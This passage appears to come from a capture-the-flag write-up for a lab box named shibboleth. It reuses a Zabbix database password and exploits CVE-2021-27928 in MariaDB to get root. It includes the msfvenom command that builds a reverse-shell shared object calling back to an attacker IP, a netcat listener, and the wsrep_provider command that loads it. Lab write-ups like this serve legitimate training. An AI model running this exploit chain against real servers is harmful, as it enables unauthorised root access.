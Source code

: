 ```txt
# Default:
DBPassword=bloooarskybluh
```

MySQL/MariaDB 10.3.25 is running on `localhost` and the credential `zabbix`:`bloooarskybluh` grants access.

```bash
ipmi-svc@shibboleth:~$ mysql -u zabbix -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 168
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
```

[CVE-2021-27928](https://www.exploit-db.com/exploits/49765) is an operating system command execution vulnerability in MariaDB 10.2 - 10.2.37, 10.3 - 10.3.28, 10.4 - 10.4.18, and 10.5 - 10.5.9. The target's MariaDB version falls in this range. Follow the instructions [here](https://github.com/Al1ex/CVE-2021-27928) to exploit the vulnerability.

Generate a 64-bit reverse shell shared object file payload.

```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.40 LPORT=443 EXITFUNC=thread -f elf-so -o tgihf.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: tgihf.so
```

Start a reverse shell listener.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
```

Stage the payload to the target and exploit the vulnerability.

```bash
ipmi-svc@shibboleth:~$ mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/home/ipmi-svc/tgihf.so"'
Enter password:
ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
```

Receive the reverse shell as `root` and read the system flag at `/root/root.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.40] from (UNKNOWN) [10.129.229.202] 40286
id
uid=0(root) gid=0(root) groups=0(root)
ls -la /root/root.txt
-r-------- 1 root root 33 Apr  5 14:11 /root/root.txt
```
